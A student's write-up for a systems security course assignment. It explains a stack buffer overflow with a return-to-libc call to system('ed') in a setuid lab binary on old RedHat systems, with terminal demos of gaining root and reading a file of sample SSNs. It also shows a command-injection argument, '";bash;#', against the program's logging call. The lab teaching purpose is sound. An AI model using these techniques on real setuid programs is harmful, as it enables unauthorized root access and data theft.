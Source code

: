 # Systems Security Assignment 1 - Stack Smashing

## Exploit Discovery

In `getscore.c`, we pass 2 command line args that get `strcat`ed together with a
color between in `get_score`. However, the command line args can be arbitrarily
long [1]. This means that we can overflow our buffer and overwrite the saved eip
for the `get_score` frame.

Our situation is that the compiled binary has the setuid bit turned on. Meaning
if we can get the program to exhibit behavior that it wasn't programmed for, we
can run code as root, and hopefully get a root shell open.

At first I thought it would be simple enough to use Aleph One's shellcode that
was provided in class. But I thought it would be more fun to not actually
execute any code that's not already in the binary or libc. So using a very basic
ROP attack, we can return to the libc function `system()` with `esp` pointing to
a `char *` which points to a string we want `/bin/sh` to execute. In essence, we
want to run the code:

    system("program_that_gives_shell")

Seems simple enough right? We could construct the stack as so:

    |---------|
    | prog    | --+ <-- matching_pattern
    | ram_    |   |
    | that    |   |
    | _giv    |   |
    | es_s    |   +-- &(saved eip) - &(matching_pattern) bytes long
    | hell    |   |
    | \0AAA   |   |
    | ...     |   |
    | AA:A    | --+
    | &system | <-- saved eip
    | ZZZZ    | <-- fake return address for system(), hopefully never executed
    | &buffer | <-- ROP args to system()
    +---------+

This would work on the RedHat 8 installation. However, the RedHat 9 exhibited
some rudimentary ASLR. Namely, the stack addresses seemed to be randomized such
that the `ebp` was one of 64 values when we enter `main()`. I expected there to
be more entropy with ASLR, but 1) this machine is running a very old kernel and
2) this could be partially due to gcc enjoying to align stack allocation on
16-byte boundaries. Either way, it requires knowing the address of the buffer we
just wrote to so we can tell `system()` where to find it. We could just guess
one of the 64 locations on the stack that it could be and keep running the
program until it works, but 1) this isn't a very elegant solution, and b) this
could raise red flags, since at least some errors are logged to `error.log`
(whose group owner is `cybersec`, better not alarm those guys).

So I searched the binary for little tidbits of text that could possibly be
binaries found somewhere on the system that are programmed to give shell access.
I finally found the string I was searching for:

    0x804833a    _IO_stdin_used

What? What program could this possibly be? Sorry, that wasn't exactly the right
address. Recall that C strings are null-terminated character arrays. This means
that we can trivially obtain a pointer to any suffix of a string by pointing at
the start of the suffix. The null byte remains in the same location, and so the
end of the suffix will be the end of the original string. This means we can get
the string `"ed"` by pointing at the second to last character in the string:

    0x8048346    ed

If you are not familiar, before we had vim we had vi, and before vi we had punch
cards. No, actually, there was this program called `ed` that was what was called
a line editor. It essentially acted like a shell, but instead the commands being
programs that carry out different tasks, it took commands that edit different
parts of your file. However, it also has one very nice feature: It can execute
arbitrary shell commands itself and print the result. Which means we can run say
`bash` from inside of `ed` and have a root shell!

[1] In actuality this depends on variables set in limits.h, but there are
131072 bytes available for args + environ on RHL8

# Stack layout

    +---------+
    | AAAA    | --+ <-- matching_pattern
    | AAAA    |   |
    | AAAA    |   +-- &(saved eip) - &(matching_pattern) bytes long
    | ...     |   |
    | AA:A    | --+
    | &system | <-- saved eip
    | ZZZZ    | <-- fake return address for system(), hopefully never executed
    | &ed     | <-- arg to system(), points to "ed"
    +---------+

## Exploit Generation

    $ python exploit.py 8
    [*] '/home/kevin/classes/systems_security/assignment1/getscore-rhl8'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments
    $ scp payload* syssec8:
    kevin@192.168.124.80's password:
    payload1                                                               100%  134    48.6KB/s   00:00
    payload2                                                               100%   17     6.7KB/s   00:00


    $ python exploit.py 9
    [*] '/home/kevin/classes/systems_security/assignment1/getscore-rhl9'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments
    $ scp payload* syssec9:
    payload1                                                               100%  134    66.3KB/s   00:00
    payload2                                                               100%   17    13.4KB/s   00:00

## RedHat Linux 8 Demo

    [kevin@localhost course_scores]$ whoami
    kevin
    [kevin@localhost course_scores]$ ls -al
    total 40
    drwxr-xr-x    2 root     root         4096 Aug 25 07:17 .
    drwxr-xr-x    5 root     root         4096 Aug 25 05:51 ..
    -rw-r--r--    1 root     cybersec       73 Jul 19  2012 error.log
    -rwsr-xr-x    1 root     root        13587 Aug 25  2009 getscore
    -rw-rw-r--    1 kevin    kevin         134 Aug 22 05:48 payload1
    -rw-rw-r--    1 kevin    kevin          17 Aug 22 05:48 payload2
    -rw-------    1 root     root           87 Aug 23  2010 score.txt
    [kevin@localhost course_scores]$ ./getscore "$(cat payload1)" "$(cat payload2)"
    !bash
    [root@localhost course_scores]# whoami
    root
    [root@localhost course_scores]# cat score.txt
    Mary Doe:123-45-6789:A:an excellent student
    Tom Smith:567-89-1234:B:pay more attention

## RedHat Linux 9 Demo

    [guest@localhost getscore]$ whoami
    guest
    [guest@localhost getscore]$ ls -al
    total 40
    drwxrwxr-x    2 guest    guest        4096 Sep 25 23:00 .
    drwx------   11 guest    guest        4096 Sep 25 22:59 ..
    -rwsr-xr-x    1 root     root        13767 Sep 25 01:34 getscore
    -rw-rw-r--    1 guest    guest        1607 Sep 24 00:55 getscore.c
    -rwxrwxr-x    1 guest    guest         134 Sep 25 22:58 payload1
    -rwxrwxr-x    1 guest    guest          17 Sep 25 22:58 payload2
    -rw-------    1 root     root           88 Sep 24 00:55 score.txt
    [guest@localhost getscore]$ cat score.txt
    cat: score.txt: Permission denied
    [guest@localhost getscore]$ ./getscore "$(cat payload1)" "$(cat payload2)"
    !bash
    [root@localhost getscore]# whoami
    root
    [root@localhost getscore]# cat score.txt
    Mary Doe:123-45-6789:A+:an excellent student
    Tom Smith:567-89-1234:B:pay more attention

## Running the exploit generator

    USAGE: ./exploit.py [ 8 | 9 ]

Running `exploit.py` requires python 2.7 and
[pwntools](https://github.com/Gallopsled/pwntools) (a simple `pip install
pwntools` should do). Then select the target environment by passing either `8`
or `9` as the first command line argument. This script will output two files,
`payload1` and `payload2`. Note that there are characters in these files that
will get interpreted as shell characters. So you can't just copy/paste the
contents of the two files as the command line args. Rather, it is best to run
the program as such:

    ./getscore "$(cat payload1)" "$(cat payload2)"
    
The `"$()"` construct guaranteed that the two strings will be passed in raw.
Additionally, I've included the correct argument strings for both RedHat 8 and 9
in `rhl8-payload1`, `rhl8-payload2`, `rhl-payload2`, and `rhl-payload2`.

## Additional vulnerability

Additionally, the original call to `system()` in the code is insecure:

    sprintf(command, "echo \"%s: Invalid user name or SSN: %s,%s\"|cat >> error.log", 
        ctime(&current_time), argv[1], argv[2]);
    if (system(command)){
        perror("Logging");
    }

Since we are interpolating strings without properly shell-escaping anything, we
can insert shell commands if carefully constructed. For example, we can insert
the string `";bash;#"` as the first argument and the empty string as the second.
So then the call to system will become something like:

    echo "Fri Sep 23 09:13:35 2017
    : Invalid user name or SSN: ";bash;#,%s\"|cat >> error.log
    
This translates to a call to `echo` (quoted strings in posix shell can contain
newlines), followed by a call to bash, and the rest is commented out. Here's a
demo:

    [kevin@localhost kevin]$ ls -l getscore score.txt 
    -rwsr-xr-x    1 root     root        13587 Aug 25  2009 getscore
    -rw-------    1 root     root           87 Aug 23  2010 score.txt
    [kevin@localhost kevin]$ cat score.txt 
    cat: score.txt: Permission denied
    [kevin@localhost kevin]$ ./getscore '";bash;#' ''
    Invalid user name or SSN.
    Fri Sep 23 09:13:35 2017
    : Invalid user name or SSN: 
    [root@localhost kevin]# cat score.txt 
    Mary Doe:123-45-6789:A+:an excellent student
    Tom Smith:567-89-1234:B:pay more attention
